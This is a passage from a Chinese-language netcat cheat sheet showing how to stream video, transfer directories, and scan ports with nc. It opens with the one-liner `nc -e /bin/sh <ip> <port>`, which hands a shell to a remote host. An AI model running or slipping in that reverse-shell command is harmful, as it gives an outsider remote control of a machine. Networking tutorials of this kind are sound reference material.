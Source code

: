 服务端

```
nc -e /bin/sh <ip> <port>
```

### 流媒体服务器

服务端

```
cat video.mp4 | nc -l -p <port>
```

客户端

```
nc -n -v <ip> <port> | mplayer -vo x11 -cache 3000 -
```



### 目录传输

目录传输需要先压缩成压缩文件再传输

或者采用比较简单的方式

服务端：
```
tar -cvf - <dir>/ | nc -l -p <port>
```
客户端：

```
nc <ip> <port> | tar -xvf -
```

### 端口扫描

验证单个端口(TCP/UDP),只有在扫描本地的时候速度很快,相比起来还是`nmap`快得多，所以尽量用专用的工具，nc只作为辅助

```
nc -z -n -v -t(u) <ip> <port>
```

目前遇到了一个问题就是如果不自定义`-w`扫描会非常慢，所以我修改了`timeout`的参数

```
nc -w 1 -nvz <ip> <port>
```

如果端口开放会返回

```
(UNKNOWN) [<ip>] <port> (?) open
```

未开放则为

```
(UNKNOWN) [<ip>] <port> (?) : Connection timed out
```
